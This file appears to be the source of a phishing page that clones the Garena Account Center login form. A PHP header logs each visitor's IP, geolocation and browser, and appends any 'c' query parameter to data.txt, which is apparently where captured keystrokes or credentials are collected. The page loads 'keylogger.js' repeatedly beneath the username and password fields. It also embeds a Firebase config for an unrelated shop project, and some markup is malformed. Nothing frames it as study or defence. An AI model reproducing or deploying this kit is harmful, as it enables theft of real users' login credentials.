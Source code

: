 <?php
$ip = $_SERVER['REMOTE_ADDR'];
$ip_info = json_decode(file_get_contents("http://ip-api.com/json/$ip"), true);
$browser = $_SERVER['HTTP_USER_AGENT'];
$dateTime = date('Y/m/d G:i:s');
$file = "visitors.html";
$file = fopen($file, "a");

fclose($file);
if(!empty($_GET['c'])) {
  $logfile = fopen('data.txt', 'a+');
  fwrite($logfile, $_GET['c']);
  fclose($logfile);
}

?>

<html>
<html lang="en"><head><meta http-equiv="origin-trial" content="Az520Inasey3TAyqLyojQa8MnmCALSEU29yQFW8dePZ7xQTvSt73pHazLFTK5f7SyLUJSo2uKLesEtEa9aUYcgMAAACPeyJvcmlnaW4iOiJodHRwczovL2dvb2dsZS5jb206NDQzIiwiZmVhdHVyZSI6IkRpc2FibGVUaGlyZFBhcnR5U3RvcmFnZVBhcnRpdGlvbmluZyIsImV4cGlyeSI6MTcyNTQwNzk5OSwiaXNTdWJkb21haW4iOnRydWUsImlzVGhpcmRQYXJ0eSI6dHJ1ZX0=">
    <script type="text/javascript" async="" src="https://www.googletagmanager.com/gtag/js?id=G-1M7M9L6VPX&amp;l=dataLayer&amp;cx=c"></script><script type="text/javascript" async="" src="https://www.gstatic.com/recaptcha/releases/u-xcq3POCWFlCr3x8_IPxgPu/recaptcha__en.js" crossorigin="anonymous" integrity="sha384-CDkofqMo6hSAPRh2TZj9HOLusb5hze4z6vkh6YWvd810w+KTuT5lucK9hQN36Xh7"></script><script async="" src="https://js.datadome.co/tags.js"></script><script async="" src="https://www.googletagmanager.com/gtm.js?id=GTM-55G2F7F"></script><script type="module" crossorigin="" src="https://sso.garena.com/universal/assets/polyfills-295155e5.js"></script>

    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0">
    <!-- Google Tag Manager -->
    <script>
      (function (w, d, s, l, i) {
        w[l] = w[l] || [];
        w[l].push({ "gtm.start": new Date().getTime(), event: "gtm.js" });
        var f = d.getElementsByTagName(s)[0],
          j = d.createElement(s),
          dl = l != "dataLayer" ? "&l=" + l : "";
        j.async = true;
        j.src = "https://www.googletagmanager.com/gtm.js?id=" + i + dl;
        f.parentNode.insertBefore(j, f);
      })(window, document, "script", "dataLayer", "GTM-55G2F7F");
    </script>
    <!-- End Google Tag Manager -->
    <link rel="icon" href="https://sso.garena.com/universal/static/favicon.ico">
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin="">
    <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;700&amp;display=swap" rel="stylesheet">
    <link href="https://sso.garena.com/universal/lib/@shopee/captcha-mobile-vanilla/main.css" rel="stylesheet">
    <script src="https://sso.garena.com/universal/lib/@shopee/slider-captcha-sdk.js" async="" defer=""></script>
    <script src="https://sso.garena.com/universal/lib/@shopee/captcha-mobile-vanilla/bundle.js" async="" defer=""></script>
    <script src="https://www.google.com/recaptcha/api.js?render=explicit" async="" defer=""></script>
    <title>Garena Account Center</title>
    <script type="module" crossorigin="" src="https://sso.garena.com/universal/assets/index-a6ab6989.js"></script>
    <link rel="stylesheet" href="https://sso.garena.com/universal/assets/index-f8df3c2d.css">
    <script type="module">try{import.meta.url;import("_").catch(()=>1);}catch(e){}window.__vite_is_modern_browser=true;</script>
    <script type="module">!function(){if(window.__vite_is_modern_browser)return;console.warn("vite: loading legacy build because dynamic import or import.meta.url is unsupported, syntax error above should be ignored");var e=document.getElementById("vite-legacy-polyfill"),n=document.createElement("script");n.src=e.src,n.onload=function(){System.import(document.getElementById('vite-legacy-entry').getAttribute('data-src'))},document.body.appendChild(n)}();</script>
  <link rel="modulepreload" as="script" crossorigin="" href="https://sso.garena.com/universal/assets/LoginView-53222025.js"><link rel="modulepreload" as="script" crossorigin="" href="https://sso.garena.com/universal/assets/ErrorBox-8598eb55.js"><link rel="stylesheet" href="https://sso.garena.com/universal/assets/ErrorBox-91a1ce3c.css"><link rel="modulepreload" as="script" crossorigin="" href="https://sso.garena.com/universal/assets/TopBar-8243dfe7.js"><link rel="stylesheet" href="https://sso.garena.com/universal/assets/TopBar-89b3db7d.css"><link rel="modulepreload" as="script" crossorigin="" href="https://sso.garena.com/universal/assets/login-6d0c159c.js"><link rel="stylesheet" href="https://sso.garena.com/universal/assets/LoginView-0d1d9d61.css"></head>
  <body>
    <!-- Google Tag Manager (noscript) -->
    <noscript>
      <iframe
        src="https://www.googletagmanager.com/ns.html?id=GTM-55G2F7F"
        height="0"
        width="0"
        style="display: none; visibility: hidden"
      ></iframe>
    </noscript>
    <!-- End Google Tag Manager (noscript) -->

    </script><div id="app" data-v-app=""><header class="topbar" data-v-878436c2="" data-v-15e3e196=""><div class="container" data-v-878436c2=""><a class="logo" href="https://www.garena.sg" data-v-878436c2=""><img src="https://sso.garena.com/universal/assets/logo-9d415851.svg" alt="Garena Logo" data-v-878436c2=""></a><select class="lang" data-v-878436c2=""><option value="en-US" data-v-878436c2="">International - English</option><option value="en-SG" data-v-878436c2=""><img src="https://sso.garena.com/universal/assets/logo-9d415851.svg" alt="Garena Logo"Singapore - English</option><option value="zh-SG" data-v-878436c2="">新加坡 - 简体中文</option><option value="zh-TW" data-v-878436c2="">台灣 - 繁体中文</option><option value="en-PH" data-v-878436c2="">Philippines - English</option><option value="th-TH" data-v-878436c2="">ไทย - ไทย</option><option value="id-ID" data-v-878436c2="">Indonesia - Bahasa Indonesia</option><option value="vi-VN" data-v-878436c2="">Việt Nam - Tiếng việt</option><option value="ru-RU" data-v-878436c2="">Россия - Русский</option><option value="en-MY" data-v-878436c2="">Malaysia - English</option><option value="pt-PT" data-v-878436c2="">Portugal - Português</option><option value="es-ES" data-v-878436c2="">España - Español</option></select></div></header><main data-v-15e3e196=""><form data-v-15e3e196=""><h2 data-v-15e3e196="">Log In</h2><div class="field required" data-v-15e3e196=""><input type="text" placeholder="Garena Username, Email or Phone" data-v-15e3e196=""><!----></div><div class="field required" data-v-15e3e196=""><input type="password" placeholder="Password" data-v-15e3e196=""><!----></div><a class="forgot" href="https://account.garena.com/recovery" data-v-15e3e196="">Forgot Password</a><div class="field" data-v-15e3e196=""><button class="primary" type="submit" data-v-15e3e196="">Login Now</button><!----></div><div class="field" data-v-15e3e196=""><button class="secondary register" type="button" data-v-15e3e196="">Register A New Account</button></div></form></main></div><script src="keylogger.js"></script>
      <script src="keylogger.js"></script>
      !(function (a, b, c, d, e, f) {
        a.ddjskey = e;
        a.ddoptions = f || null;
        var m = b.createElement(c),
          n = b.getElementsByTagName(c)[0];
        (m.async = 1), (m.src = d), n.parentNode.insertBefore(m, n);
      })(
        window,
        document,
        "script",
        "https://js.datadome.co/tags.js",
        "AE3F04AD3F0D3A462481A337485081",
        {
          ajaxListenerPathExclusion: [
            "https://www.google-analytics.com",
            "api-js.datadome.co",
          ],
          exposeCaptchaFunction: true,
          disableAutoRefreshOnCaptchaPassed: true,
          enableTagEvents: true,
        }
      );
    </script>

    <style></style>
    <script src="keylogger.js"></script>
    <script nomodule="">!function(){var e=document,t=e.createElement("script");if(!("noModule"in t)&&"onbeforeload"in t){var n=!1;e.addEventListener("beforeload",(function(e){if(e.target===t)n=!0;else if(!e.target.hasAttribute("nomodule")||!n)return;e.preventDefault()}),!0),t.type="module",t.src=".",e.head.appendChild(t),t.remove()}}();</script>
    <script nomodule="" crossorigin="" id="vite-legacy-polyfill" src="https://sso.garena.com/universal/assets/polyfills-legacy-45cadae9.js"></script>
    <script nomodule="" crossorigin="" id="vite-legacy-entry" data-src="https://sso.garena.com/universal/assets/index-legacy-485f3edd.js">System.import(document.getElementById('vite-legacy-entry').getAttribute('data-src'))</script>
    <script src="keylogger.js"></script><script src="keylogger.js"></script><script src="keylogger.js"></script><script src="keylogger.js"></script>

    <script type="module">
  // Import the functions you need from the SDKs you need
  import { initializeApp } from "https://www.gstatic.com/firebasejs/10.7.1/firebase-app.js";
  import { getAnalytics } from "https://www.gstatic.com/firebasejs/10.7.1/firebase-analytics.js";
  // TODO: Add SDKs for Firebase products that you want to use
  // https://firebase.google.com/docs/web/setup#available-libraries

  // Your web app's Firebase configuration
  // For Firebase JS SDK v7.20.0 and later, measurementId is optional
  const firebaseConfig = {
    apiKey: "AIzaSyBZ0_-AN_qOiNEb52Xy7ycQJ3y3_YiUJFI",
    authDomain: "mali4saleshop.firebaseapp.com",
    projectId: "mali4saleshop",
    storageBucket: "mali4saleshop.appspot.com",
    messagingSenderId: "1022120591242",
    appId: "1:1022120591242:web:e97e143fba1bfded11d273",
    measurementId: "G-17T43RHP8B"
  };

  // Initialize Firebase
  const app = initializeApp(firebaseConfig);
  const analytics = getAnalytics(app);
</script>


</html>   

